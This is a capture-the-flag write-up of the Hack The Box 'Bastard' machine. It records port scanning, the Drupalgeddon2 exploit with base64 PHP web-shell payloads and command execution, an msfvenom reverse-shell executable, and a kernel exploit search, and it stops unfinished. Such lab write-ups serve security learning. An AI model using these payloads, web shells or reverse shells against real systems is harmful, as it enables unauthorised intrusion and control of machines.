


- Machine : https://app.hackthebox.com/machines/Bastard
- Reference : https://0xdf.gitlab.io/2019/03/12/htb-bastard.html
- Solved : 2025.3.5. (Wed) (Takes 0days)

## Summary
---


### Key Techniques:


---

# Reconnaissance

### Port Scanning

```bash
┌──(kali㉿kali)-[~/htb/bastard]
└─$ /opt/custom-scripts/port-scan.sh 10.10.10.9
Performing quick port scan on 10.10.10.9...
Found open ports: 80,135,49154
Performing detailed scan on 10.10.10.9...
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-04 22:33 MST
Nmap scan report for 10.10.10.9
Host is up (0.12s latency).

PORT      STATE SERVICE VERSION
80/tcp    open  http    Microsoft IIS httpd 7.5
|_http-server-header: Microsoft-IIS/7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-generator: Drupal 7 (http://drupal.org)
|_http-title: Welcome to Bastard | Bastard
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
|_/LICENSE.txt /MAINTAINERS.txt
135/tcp   open  msrpc   Microsoft Windows RPC
49154/tcp open  msrpc   Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 65.65 seconds
```

### http(80)



It obviously looks like a drupal CMS.



Given the `CHANGELOG.txt` file, it seems that its version is 7.54.


# Shell as `iusr`

### Drupalgeddon2

I used [Drupalgeddon2](https://github.com/dreadlocked/Drupalgeddon2/) exploit found from public.

```bash
┌──(kali㉿kali)-[~/htb/bastard/Drupalgeddon2]
└─$ sudo ruby drupalgeddon2.rb http://10.10.10.9
[*] --==[::#Drupalggedon2::]==--
--------------------------------------------------------------------------------
[i] Target : http://10.10.10.9/
--------------------------------------------------------------------------------
[+] Found  : http://10.10.10.9/CHANGELOG.txt    (HTTP Response: 200)
[+] Drupal!: v7.54
--------------------------------------------------------------------------------
[*] Testing: Form   (user/password)
[+] Result : Form valid
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
[*] Testing: Clean URLs
[+] Result : Clean URLs enabled
--------------------------------------------------------------------------------
[*] Testing: Code Execution   (Method: name)
[i] Payload: echo VZDSSONX
[+] Result : VZDSSONX
[+] Good News Everyone! Target seems to be exploitable (Code execution)! w00hooOO!
--------------------------------------------------------------------------------
[*] Testing: Existing file   (http://10.10.10.9/shell.php)
[i] Response: HTTP 404 // Size: 12
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
[*] Testing: Writing To Web Root   (./)
[i] Payload: echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee shell.php
[!] Target is NOT exploitable [2-4] (HTTP Response: 404)...   Might not have write access?
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
[*] Testing: Existing file   (http://10.10.10.9/sites/default/shell.php)
[i] Response: HTTP 404 // Size: 12
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
[*] Testing: Writing To Web Root   (sites/default/)
[i] Payload: echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee sites/default/shell.php
[!] Target is NOT exploitable [2-4] (HTTP Response: 404)...   Might not have write access?
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
[*] Testing: Existing file   (http://10.10.10.9/sites/default/files/shell.php)
[i] Response: HTTP 404 // Size: 12
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
[*] Testing: Writing To Web Root   (sites/default/files/)
[*] Moving : ./sites/default/files/.htaccess
[i] Payload: mv -f sites/default/files/.htaccess sites/default/files/.htaccess-bak; echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee sites/default/files/shell.php
[!] Target is NOT exploitable [2-4] (HTTP Response: 404)...   Might not have write access?
[!] FAILED : Couldn't find a writeable web path
--------------------------------------------------------------------------------
[*] Dropping back to direct OS commands
drupalgeddon2>> whoami
nt authority\iusr
```


# Shell as `???`

### systeminfo

```bash
drupalgeddon2>> systeminfo
Host Name:                 BASTARD
OS Name:                   Microsoft Windows Server 2008 R2 Datacenter 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                55041-402-3582622-84461
Original Install Date:     18/3/2017, 7:04:46 ��
System Boot Time:          5/3/2025, 7:21:47 ��
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               x64-based PC
Processor(s):              2 Processor(s) Installed.
                           [01]: AMD64 Family 25 Model 1 Stepping 1 AuthenticAMD ~2595 Mhz
                           [02]: AMD64 Family 25 Model 1 Stepping 1 AuthenticAMD ~2595 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/11/2020
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     2.047 MB
Available Physical Memory: 1.561 MB
Virtual Memory: Max Size:  4.095 MB
Virtual Memory: Available: 3.580 MB
Virtual Memory: In Use:    515 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) PRO/1000 MT Network Connection
                                 Connection Name: Local Area Connection
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.9
```

It's MS Windows 2008 R2 Datacenter 6.1.7600 Build without any hotfix.

To spawn more stable shell, I used msfvenom to generate payload.

```bash
┌──(kali㉿kali)-[~/htb/bastard]
└─$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.3 LPORT=9000 -f exe -o rshell_9000.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
Saved as: rshell_9000.exe
```

Then using netcat listener, spawned a shell.

### Windows-Exploit-Suggester

Next, I ran `windows-exploit-suggester.py` to find if there's any kernal vulnerabilities.

```bash
┌──(kali㉿kali)-[~/htb/bastard/Windows-Exploit-Suggester]
└─$ python2 windows-exploit-suggester.py --database 2025-03-05-mssb.xls --systeminfo ../systeminfo.txt
[*] initiating winsploit version 3.3...
[*] database file detected as xls or xlsx based on extension
[*] attempting to read from the systeminfo input file
[+] systeminfo input file read successfully (utf-8)
[*] querying database file for potential vulnerabilities
[*] comparing the 0 hotfix(es) against the 197 potential bulletins(s) with a database of 137 known exploits
[*] there are now 197 remaining vulns
[+] [E] exploitdb PoC, [M] Metasploit module, [*] missing bulletin
[+] windows version identified as 'Windows 2008 R2 64-bit'
[*] 
[M] MS13-009: Cumulative Security Update for Internet Explorer (2792100) - Critical
[M] MS13-005: Vulnerability in Windows Kernel-Mode Driver Could Allow Elevation of Privilege (2778930) - Important
[E] MS12-037: Cumulative Security Update for Internet Explorer (2699988) - Critical
[*]   http://www.exploit-db.com/exploits/35273/ -- Internet Explorer 8 - Fixed Col Span ID Full ASLR, DEP & EMET 5., PoC
[*]   http://www.exploit-db.com/exploits/34815/ -- Internet Explorer 8 - Fixed Col Span ID Full ASLR, DEP & EMET 5.0 Bypass (MS12-037), PoC
[*] 
[E] MS11-011: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (2393802) - Important
[M] MS10-073: Vulnerabilities in Windows Kernel-Mode Drivers Could Allow Elevation of Privilege (981957) - Important
[M] MS10-061: Vulnerability in Print Spooler Service Could Allow Remote Code Execution (2347290) - Critical
[E] MS10-059: Vulnerabilities in the Tracing Feature for Services Could Allow Elevation of Privilege (982799) - Important
[E] MS10-047: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (981852) - Important
[M] MS10-002: Cumulative Security Update for Internet Explorer (978207) - Critical
[M] MS09-072: Cumulative Security Update for Internet Explorer (976325) - Critical
[*] done
```

> Stuck on Kernel exploit for long...
> Have to visit later...